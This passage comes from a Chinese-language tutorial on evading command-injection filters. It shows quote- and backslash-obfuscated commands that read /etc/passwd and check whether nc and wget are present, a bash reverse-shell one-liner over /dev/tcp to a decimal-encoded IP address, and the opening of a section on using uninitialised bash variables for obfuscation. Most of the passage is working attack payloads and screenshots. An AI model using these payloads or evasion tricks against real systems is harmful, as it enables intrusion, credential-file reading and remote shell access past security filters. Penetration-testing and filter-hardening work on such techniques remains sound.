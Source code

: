 ```bash
/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd
```

[![读取/etc/passwd](https://image.3001.net/images/20180921/1537502856_5ba46e88a070e.png!small)](https://image.3001.net/images/20180921/1537502856_5ba46e88a070e.png)

### 获取shell

检测NC：

```bash
/'b'i'n'/'w'h'i'c'h' 'n'c
```

[![检测NC](https://image.3001.net/images/20180921/1537502861_5ba46e8d4ba6b.png!small)](https://image.3001.net/images/20180921/1537502861_5ba46e8d4ba6b.png)

没有NC的情况检查wget：

```bash
/'b'i'n'/'w'h'i'c'h' 'w'g'e't
```

[![没有NC的情况检查wget](https://image.3001.net/images/20180921/1537502866_5ba46e92406de.png!small)](https://image.3001.net/images/20180921/1537502866_5ba46e92406de.png)

简单粗暴（容易被检查）：

```bash
bash -c 'sh -i &>/dev/tcp/2130706433/3737 0>&1'
```

其他字符：

```bash
双引号
/"b"i"n"/"w"h"i"c"h" "n"c
```

[![其他字符](https://image.3001.net/images/20180921/1537502872_5ba46e98ecccb.png!small)](https://image.3001.net/images/20180921/1537502872_5ba46e98ecccb.png)

```bash
反斜杆
/b\i\n/w\h\i\c\h n\c
```

[![反斜杆](https://image.3001.net/images/20180921/1537502879_5ba46e9f57574.png!small)](https://image.3001.net/images/20180921/1537502879_5ba46e9f57574.png)

## 技巧三：未初始化的bash变量

在bash环境中允许我们使用未初始化的bash变量，如何

```bash
$a,$b,$c
```

我们事先并没有定义它们，输出看看：
